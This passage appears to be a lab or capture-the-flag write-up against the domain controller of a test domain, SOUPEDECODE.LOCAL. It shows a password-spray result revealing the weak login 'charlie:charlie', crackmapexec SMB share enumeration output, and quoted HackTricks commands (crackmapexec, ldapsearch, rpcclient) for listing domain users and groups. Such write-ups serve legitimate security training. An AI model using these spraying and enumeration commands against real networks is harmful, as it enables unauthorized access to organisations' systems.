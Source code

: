 ```
2024/09/03 11:38:06 >  [+] VALID LOGIN WITH ERROR:       charlie@SOUPEDECODE.LOCAL:charlie   (Clock skew is too great)  ←                                                                  
2024/09/03 11:38:06 >  Done! Tested 75 logins (1 successes) in 1.118 seconds
```

`crackmapexec smb 192.168.56.103 -d 'SOUPEDECODE.LOCAL' -u 'charlie' -p 'charlie' --shares`:
```
SMB         192.168.56.103  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.56.103  445    DC01             [+] SOUPEDECODE.LOCAL\charlie:charlie 
SMB         192.168.56.103  445    DC01             [+] Enumerated shares
SMB         192.168.56.103  445    DC01             Share           Permissions     Remark
SMB         192.168.56.103  445    DC01             -----           -----------     ------
SMB         192.168.56.103  445    DC01             ADMIN$                          Remote Admin
SMB         192.168.56.103  445    DC01             C$                              Default share ←
SMB         192.168.56.103  445    DC01             IPC$            READ            Remote IPC
SMB         192.168.56.103  445    DC01             NETLOGON        READ            Logon server share 
SMB         192.168.56.103  445    DC01             SYSVOL          READ            Logon server share 
```

<div>
	<img src="./assets/logo_hacktricks.png" alt="HackTricks Logo" width="16" height="auto">
	<span style="color: red; font-size: 110%;"><strong>HackTricks</strong></span>
</div>
[139,445 - Pentesting SMB](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)

[**#Enumerate Users, Groups & Logged On Users**]

This info should already being gathered from enum4linux and enum4linux-ng
```bash
crackmapexec smb 10.10.10.10 --users [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 --groups [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 --groups --loggedon-users [-u <username> -p <password>]

ldapsearch -x -b "DC=DOMAIN_NAME,DC=LOCAL" -s sub "(&(objectclass=user))" -h 10.10.10.10 | grep -i samaccountname: | cut -f 2 -d " "

rpcclient -U "" -N 10.10.10.10
enumdomusers
enumdomgroups
```
